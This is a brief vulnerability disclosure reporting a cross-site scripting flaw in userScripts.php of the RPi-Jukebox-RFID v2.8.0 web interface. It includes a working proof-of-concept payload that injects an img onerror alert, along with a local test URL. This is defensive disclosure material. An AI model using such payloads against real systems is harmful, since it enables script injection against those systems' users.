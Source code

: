 # XSS vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /userScripts.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/userScripts.php

**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

http://192.168.100.101/phoniebox/htdocs/userScripts.php

![image-20250825041732477](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250417654.png)

![image-20250825041752012](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250417679.png)



![image-20250825041903710](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250419853.png)